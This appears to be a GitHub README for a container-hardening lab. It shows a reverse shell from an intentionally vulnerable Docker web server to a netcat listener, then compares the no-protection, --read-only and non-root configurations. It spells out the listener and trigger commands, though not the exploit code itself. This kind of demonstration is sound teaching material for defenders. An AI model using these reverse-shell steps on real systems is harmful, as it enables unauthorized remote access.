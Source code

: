 # README.md
Demonstrates getting access into a container

## TODO: 
1. Is it possible to escape the read-only and run tools in the package lists?  


## Find IP
```sh
#MacOS
LOCAL_IP=$(ifconfig en0 inet | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" | head -n 1)  
echo ${LOCAL_IP}
```

## No Protection
### Shell 1
Run the stupid webserver.  Retrieve your host ip address and replace. 
```sh
docker build --target no_protection -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2
Run the callback service in a seperate shell 
```sh
nc -l -p 8888 -vvv 
```

### Shell 3
Invoke the exploit against the web server
```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents. 
You will see a bash prompt that is connected to the container. 
```sh 
# Try and install something.
apt install curl

# Exiting will kill the container process
exit
```

## Readonly
### Shell 1
Run --read-only.   

```sh
docker build --target no_protection -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --read-only --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2
Run the callback service in a seperate shell 
```sh
nc -l -p 8888 -vvv 
```

### Shell 3
Invoke the exploit against the web server
```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents. 
You will see a bash prompt that is connected to the container. 
```sh 
# Try and install something - but this time it FAILS.
apt install curl

# Exiting will kill the container process
exit
```

## Nonroot
### Shell 1
Build and run a non-root user image.   

```sh
docker build --target non_root -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2
Run the callback service in a seperate shell 
```sh
nc -l -p 8888 -vvv 
```

### Shell 3
Invoke the exploit against the web server
```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents. 
You will see a bash prompt that is connected to the container. 
```sh 
# You're webuser now.
whoami
# Try and install something - but this time it FAILS.
apt install curl


# Exiting will kill the container process
exit
```

## Troubleshooting  
Test with a simple webservice  
```
docker run -it --rm -p 8080:8080 --entrypoint /bin/bash reverseshell
echo -e "HTTP/1.1 200 OK\n\n $(date)" | nc -l -p 8080 -q 1
curl localhost:8080
```

```
tmuxinator
tmuxinator stop reverseshell
```